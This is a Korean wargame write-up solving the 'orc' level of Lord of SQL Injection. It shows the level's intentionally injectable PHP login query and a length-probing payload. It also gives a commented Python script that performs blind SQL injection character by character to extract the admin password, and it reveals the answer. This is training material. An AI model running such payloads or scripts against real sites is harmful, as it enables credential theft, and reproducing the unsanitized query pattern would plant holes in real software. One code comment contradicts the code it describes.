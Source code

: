 # Lord of SQL Injection No.4 - orc
## 문제 출제 의도
기본적인 Blind SQL을 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
orc 문제 의 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello admin</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - 데이터베이스에서 뽑아온 값이 있으면 Hello admin이 출력된다.
    - addslashes 함수
        ~~~
        string addslashes ( string $str )
        ~~~
        *  특수문자로 부터 발생될 수 있는 에러를 피하기위해 특수문자 앞에 역슬래쉬를 붙여주는 역활을하는 함수.
        * 원래대로 돌려줄때는 백슬레쉬를 제거해주는 stripslashes() 함수를 쓴다.

    - 이후 받은 pw 값과 데이터베이스에 뽑아온 pw 값을 비교하여 두 pw 값이 같으면 문제가 풀린다.

+ 문제 해결
    - 직접 패스워드를 알아야 함으로 우선 비밀번호가 몇 글자인지 알아야 한다.
        * 따라서 URL 뒤에 다음과 같은 문자열을 추가 하여 확인한다.
            ~~~
            ?pw=' or id='admin' and length(pw)=8-- -
            ~~~
            이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.
  

    - 비밀번호의 실제 값을 substr 함수를 통해 알아낸다.
        * SUBSTR
            ~~~
            substr(문자열, 시작index, 길이)
            ~~~
            - 문자열을 자르는 함수이다. 시작 인덱스에서 길이만큼 문자열을 자른다.
            - 이를 통해 문자열을 잘라 문자를 하나씩 알아낸다.
    
    - 한글자씩 알아내는 것은 코드를 이용하여 풀면 편하다.  
    - 다음은 파이썬 코드이다.
    ~~~
        import urllib.request #http 프로토콜에 따라 요청, 응답받기 위해 파이썬의 표준 모듈에 포함되어 있는 urllib 모듈을 사용할 것이다.
        from urllib.parse import quote # python3의 내장 라이브러리인 urllib의 parse 모듈에 들어있는 quote 함수를 사용할 수 있도록 이 코드에 불러온다.

        key = "" #pw값 저장을 위한 문자열 변수
        for i in range(1, 9): #8자리이기 때문에 1~8까지 뺑뺑이
            for j in range(32, 127): #아스키코드에서 유효한 값은33~126이기 때문에
                url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=" #고정된 부분
                data="' or id='admin' and substr(pw,1,{})='{}'#".format(str(i), key + chr(j)) #얘들이 새로 들어갈 애들이다.
                print(data) # 반복문이 한 번 돌 때마다 URL을 출력하도록 한다.
                data = quote(data) # URL Encoding을 해 준다.
                re = urllib.request.Request(url + data) #모듈의 클래스를 통해 re객체 생성
                re.add_header("User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36") # re 객체의 header에 User-agent를 추가한다. User-agent가 없으면 403 Forbidden 오류가 난다. 
                re.add_header("Cookie", "PHPSESSID=4p56htpvcookallo00ondblnf6") # 쿠키값 입력

                res = urllib.request.urlopen(re) # 객체를 이용해 요청을 보낸다.

                if str(res.read()).find("Hello admin") != -1: # 응답에서 "Hello admin"이라는 문자열을 찾은 경우. find()는 찾으면 시작 인덱스를, 못 찾으면 -1을 반환하는 함수이다.
                    key += chr(j).lower() # key 변수 뒤에 유효한 값인 j를 대문자로 변경하여 추가한다.
                    print(key) # key를 출력한다.
                    break # i번째 문자를 찾았으니 이제 다음 문자를찾아 문자열을 완성하기 위해 안쪽 포문을 탈출한다.
        print(key) #  최종 key를 출력한다.
    ~~~
- 위 코드를 실행하면 295d5844가 출력된다. 이를 URL 뒤에 GET 방식으로 입력하면 해결된다. 

